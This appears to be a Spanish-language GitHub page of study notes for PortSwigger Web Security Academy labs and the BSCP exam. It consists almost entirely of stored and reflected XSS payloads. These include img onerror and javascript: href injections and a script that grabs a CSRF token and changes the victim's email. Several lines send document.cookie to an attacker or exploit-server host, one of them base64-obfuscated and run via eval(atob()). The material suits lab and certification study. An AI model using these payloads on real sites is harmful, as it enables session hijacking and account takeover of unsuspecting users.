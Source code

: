```js
&website=https://%26%61%70%6f%73%3b%2d%61%6c%65%72%74%28%31%29%2d%26%61%70%6f%73%3b.com

//LAB: XSS Stored href " " encoded HTML
//en el param body website: 
javascript:alert('Pwn3d_By_JF0x0r')

//LAB: XSS Stored Base DOM
//en el param body de Author/name o en comment. 
<><img src=x onerror=alert('Pwn3d_By_JF0x0r');>  //testing
<><img src=https://ID-LAB.web-security-academy.net/post?postId=9 onerror=alert(1);> //payload FINAL. 
<><img src=x onerror=this.src="http://<YOUR_SERVER_IP>/?c="+document.cookie>
<img src=x onerror=this.src'https://COLLAB.com/?cook='+document.cookie;>

//LAB: XSS Stored + CSRF
//La seccion de comments es la vulnerable. 
<script> 
var req = new XMLHttpRequest(); 
req.onload = handleResponse; 
req.open('get','/my-account',true); 
req.send(); 
function handleResponse() { 
	var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1]; 
	var changeReq = new XMLHttpRequest(); 
	changeReq.open('post', '/my-account/change-email', true);
	changeReq.send('csrf='+token+'&email=test@test.com') 
}; 
</script>

```


### Tips utiles examen Practica BSCP XSS -> 

* Durante mi resolución del examen de practica estos fueron algunos de los tips payloads que usé los cuales me sirvieron. 

```js
/searchTerm BSCP PRACTICE EXAM APP #1

/searchTerm="-alert(1)-"
//fetch encodeado a base64
fetch('https://exploit-ID-EXPLOIT.exploit-server.net/?c='+document.cookie)

//ZmV0Y2goJ2h0dHBzOi8vZXhwbG9pdC0wYWM4MDBkNTA0Njg2MDllODBkMjAyN2MwMTE2MDAyYS5leHBsb2l0LXNlcnZlci5uZXQvP2M9Jytkb2N1bWVudC5jb29raWUpCg==

//el location puede estar al final con o sin ; ya es cuestión de probar. 

eval(atob('base64'))

<script>
document.location="https://ID-LAB.web-security-academy.net/?SearchTerm=%22-eval(atob('ZmV0Y2goJ2h0dHBzOi8vZXhwbG9pdC0wYWM4MDBkNTA0Njg2MDllODBkMjAyN2MwMTE2MDAyYS5leHBsb2l0LXNlcnZlci5uZXQvP2M9Jytkb2N1bWVudC5jb29raWUpCg=='))-%22"
</script>

<script>
document.location="https://ID-LAB.web-security-academy.net/?SearchTerm=%22-eval(atob(''))-%22"
</script>

<script>
```